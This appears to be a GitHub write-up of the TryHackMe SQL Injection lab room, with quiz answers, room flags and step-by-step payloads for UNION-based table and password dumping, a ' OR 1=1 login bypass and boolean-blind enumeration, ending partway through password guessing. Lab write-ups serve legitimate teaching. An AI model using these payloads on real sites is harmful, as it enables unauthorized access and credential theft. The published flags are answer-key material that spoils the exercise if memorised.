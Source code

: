 <h1 align='center'>:fire: TryHackMe SQL Injection room :fire: </h1>

![show image](images/1-show.png)<br/>
[SQL Injection Room](https://tryhackme.com/room/sqlinjectionlm)


## Task 1: Breif
### Q: What does SQL stand for?
![what does](images/2-what-does.png)<br/>
#### A: `Structured Query Language` :heavy_check_mark:<br/>

## Task 2: What is database?
### Q: What is the acronym for the software that controls a database?
![dbms](images/3.png)<br/>
#### A: `DBMS` :heavy_check_mark:<br/>

### Q: What is the name of the grid-like structure which holds the data?
![table](images/4-table.png)<br/>
#### A: `table` :heavy_check_mark:<br/>

## Task 3: What is SQL?
### Q: What SQL statement is used to retrieve data?
![select](images/5-select.png)<br/>
#### A: `SELECT` :heavy_check_mark:<br/>

### Q: What SQL clause can be used to retrieve data from multiple tables?
![union](images/6-union.png)<br/>
#### A: `UNION` :heavy_check_mark:<br/>

### Q: What SQL statement is used to add data?
![insert](images/7-insert.png)<br/>
#### A: `INSERT` :heavy_check_mark:<br/>

## Task 4: What is SQL Injection?
### Q: What character signifies the end of an SQL query?
![semicolon](images/8-semicolon.png)<br/>
#### A: `;` :heavy_check_mark:<br/>

## Task 5: In-Band SQLi
### Q: What is the flag after completing level 1?
    '
![apostrophe](images/9-apostrophe.png)<br/>
Try typing an apostrophe `'` after the `id=1` and press enter. And you'll see this returns an SQL error informing you of an error in your syntax.<br/>

    1 UNION SELECT 1,2,3
![error solved](images/10-error-solved.png)<br/>
Success,  the error message has gone, and the article is being displayed, but now  we want to display our data instead of the article.<br/>

Now change value `1` to `0` before UNION

    0 UNION SELECT 1,2,3
![change value](images/11-change-value.png)<br/>
You'll now see the article is just made up of the result from the UNION select returning the column values `1, 2, and 3`<br/>

    0 UNION SELECT 1,2,database()
![datanase](images/12-database.png)<br/>
It now shows the name of the database, which is `sqli_one`.<br/>

    0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
![tables name](images/13-get-tables-name.png)<br/>
The information we want to retrieve has changed from table_name to `column_name`, the table we are querying in the information_schema database has changed from tables to `columns`, and we're searching for any rows where the `table_name` column has a value of `staff_users`.<br/>

    0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
![columns](images/14-all-columns.png)<br/>
We get all the columns name of `stuff_users` table

    0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
![password](images/15-password.png)<br/>
#### A: `THM{SQL_INJECTION_3840}` :heavy_check_mark:<br/>

## Task 6: Blind SQLi - Authentication Bypass
### Q: What is the flag after completing level two? (and moving to level 3)
    username anything and password field ' OR 1=1;--
![sqli in password](images/16-sqli-in-pwd.png)<br/>
![next button](images/17-click-next.png)<br/>
#### A: `THM{SQL_INJECTION_9581}` :heavy_check_mark:<br/>


## Task 7: Blind SQLi - Boolean Based
### Q: What is the flag after completing level three?
    admin123' UNION SELECT 1;-- 
![incorrent column](images/18-incorrect-column.png)<br/>
As the web application has responded with the value taken as false, we can confirm this is the incorrect value of columns.<br/>

    admin123' UNION SELECT 1,2,3;-- 
![Column error fixed](images/19-column-error-fixed.png)<br/>
Now that our number of columns has been established, we can work on the  enumeration of the database.<br/>

    admin123' UNION SELECT 1,2,3 where database() like 's%';-- 
![Get db name](images/20-get-database-name.png)<br/>
After many tryed i've found full database name, which is `sqli_three`<br/>

Now we need to enumerate `table names` using a similar method.
    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'u%';--
![table name](images/21-table-name.png)<br/>

    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
![full table name](images/22-full-table-name.png)<br/>
After many tryed i've found full table name, which is `users`<br/>

    admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME !='%username%'; ---
![column name](images/23-column-name-found.png)<br/>
I've found a column called `username` under the `users` table and database `sql_three`<br/>

    admin123' UNION SELECT 1,2,3 from users where username like 'a%
![username start](images/24-username-start-point.png)<br/>
As you can see username character start with `a`

    admin123' UNION SELECT 1,2,3 from users where username like 'admin%
![username found](images/25-username-found.png)<br/>
I've found username `admin`<br/>

    admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '3%
![finding password](images/26-finding-password.png)<br/>